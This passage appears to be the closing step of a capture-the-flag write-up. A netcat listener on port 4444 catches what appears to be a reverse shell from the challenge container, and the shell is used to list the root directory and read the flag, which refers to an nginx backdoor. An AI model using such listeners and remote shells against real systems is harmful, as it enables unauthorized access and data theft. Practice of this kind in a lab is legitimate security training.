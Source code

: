And get the flag :

```bash
nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on x.x.x.x 39054
ls -la /
total 96
drwxr-xr-x   1 root root 4096 Nov  7 09:43 .
drwxr-xr-x   1 root root 4096 Nov  7 09:43 ..
-rwxr-xr-x   1 root root    0 Nov  7 09:43 .dockerenv
drwxr-xr-x   1 root root 4096 Nov  7 09:07 app
drwxr-xr-x   1 root root 4096 Nov  7 09:42 bin
drwxr-xr-x   2 root root 4096 Aug 14 16:05 boot
drwxr-xr-x   5 root root  340 Nov  7 09:48 dev
drwxr-xr-x   1 root root 4096 Nov  7 09:43 etc
-rwxrwxrwx   1 root root   32 Nov  7 09:04 flag-9fb215456edeadc855c755846be83cc310a5d262aa5d9360dd27db9cd0141a9d
drwxr-xr-x   2 root root 4096 Aug 14 16:05 home
drwxr-xr-x   1 root root 4096 Nov  7 09:42 lib
drwxr-xr-x   2 root root 4096 Oct 16 00:00 lib64
drwxr-xr-x   2 root root 4096 Oct 16 00:00 media
drwxr-xr-x   2 root root 4096 Oct 16 00:00 mnt
drwxr-xr-x   2 root root 4096 Oct 16 00:00 opt
dr-xr-xr-x 477 root root    0 Nov  7 09:48 proc
drwx------   1 root root 4096 Nov  7 09:44 root
drwxr-xr-x   3 root root 4096 Oct 16 00:00 run
-rwxrwxr-x   1 root root  134 Nov  7 09:04 run.sh
drwxr-xr-x   2 root root 4096 Oct 16 00:00 sbin
drwxr-xr-x   2 root root 4096 Oct 16 00:00 srv
dr-xr-xr-x  13 root root    0 Nov  7 09:48 sys
drwxrwxrwt   1 root root 4096 Nov  7 09:43 tmp
drwxr-xr-x   1 root root 4096 Oct 16 00:00 usr
drwxr-xr-x   1 root root 4096 Oct 16 00:00 var
cat /flag*
RM{My_Tr4inee_B4ckd00r_My_Ng1nx}
```